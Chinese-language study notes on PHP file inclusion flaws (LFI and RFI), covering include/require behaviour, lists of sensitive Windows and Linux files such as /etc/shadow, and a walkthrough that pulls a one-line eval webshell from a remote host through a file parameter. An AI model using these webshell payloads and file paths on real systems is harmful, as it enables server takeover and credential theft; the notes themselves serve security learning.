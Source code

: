 ## 文件包含
- 文件包含: 开发人员可以将重复使用的内容写到单个文件中, 使用时**直接调用此文件**
- 文件包含漏洞: 开发人员希望更加灵活, 有时会将**包含的文件设置为变量**, 用来动态调用, 由于这种灵活性, 可能导致攻击者调用恶意文件, 造成文件包含漏洞
- 文件包含特性: 只要被包含的文件的文件内容符合PHP语法, 无论文件格式, 该文件都会被php解释去解释执行; 如果内容不符合PHP语法, 就会将该文件内容读取出来
- 出现文件包含漏洞, 就可以上传一个符合php语法的本地文件, 使用get"调用", 也可以使用协议访问任意远程文件
- html中可以包含css样式和js脚本, php也同样可以包含函数, 类, 循环, 文件等等
	- `<link href="xxx/xxx.css"`
	- `<script src="xxx/xxx.js></script>"`
- [[#远程文件--一句话木马|一句话木马]]: `<?php eval($_POST['Ryan']);`
- 如果网站存在文件包含漏洞, 就可以包含一个自己的木马文件, 在网站上读取(运行)拿到服务器权限

### 漏洞危害
- 敏感信息泄露
	- Windows常见敏感文件:
		- `C:\boot.ini` 查看系统版本
		- `C:\windows\system32\inetsrv\MetaBase.xml` iis配置文件
		- `C:\windows\repair\same` 存储Windows初次安装密码
		- `C:\ProgramFiles\mysql\my.ini` mysql配置信息
		- `C:\ProgramFiles\mysql\data\mysql\user.MYD` mysql root密码
		- `C:\windows\win.ini` 系统信息, 常用于注入木马
	- Linux常见敏感文件:
		- `/etc/passwd` 账户信息
		- `/etc/shadow` 账户密码文件
		- `/etc/apache2/apache2.conf` Apache2默认配置文件
		- `/etc/my.comf` mysql配置文件
		- `/etc/php/5.6/apache2/php.ini` php相关配置
		- `/etc/httpd/conf/httpd.conf` apache配置信息
- 获取webshell
- 任意命令执行

### 相关函数
- `include()`: 在此处书写/执行目标文件的内容, 与c的include相似
	- 当使用该函数包含文件时, 只有代码执行到include()函数时才将文件包含进来
	- 当发生错误时只给出警告, 继续向下执行
- `include_once()`: 功能与include()相同, 但本程序中重复的文件只调用一次
- `require()`: 与include()的区别在于: 执行中如果发生错误, 函数会输出错误信息, 并终止脚本的运行
- `require_once()`: 功能与require()相同, 当重复调用同一文件时, 只调用一次

## 文件包含的分类
- 本地文件包含(LFI): Local File Including 当包含的文件在服务器本地时
- 远程文件包含(RFI): Remote File Including 当包含的文件在远程服务器上时
	- 需要使用[[#http https |http伪协议]], `?file=http://www.baidu.com/robots.txt`
		- Robots协议是搜索引擎蜘蛛爬行的一种标准，当蜘蛛来访的时候会首先检测网站根目录下是否存在Robots.txt这个文件。如果存在，它会根据Robots协议的规定，去抓取只被SEO管理允许抓取的页面，而屏蔽不需要抓取的内容，它可以理解为是蜘蛛与站点之间的许可证。
	- 在配置文件打开对应参数开关: php.ini中
		- `allow_url_include=on`  `allow_url_fopen=on`

### 远程文件--一句话木马
- 使用伪协议访问其它服务器(主机)上的木马文件, 使这个漏洞更便于利用: shell.txt: `<?php eval($_POST['file']); ?>`
	- eval()函数: 将括号内的字符串视为语句并运行
- `?file=http://192.168.1.11/shell.txt` 参数+伪协议+地址+路径访问
- 因为这个远程文件符合php语法, 网页将会执行此代码, 多出一个文件包含
- post命令: `file=phpinfo();` php语言要加分号`;`结尾语句
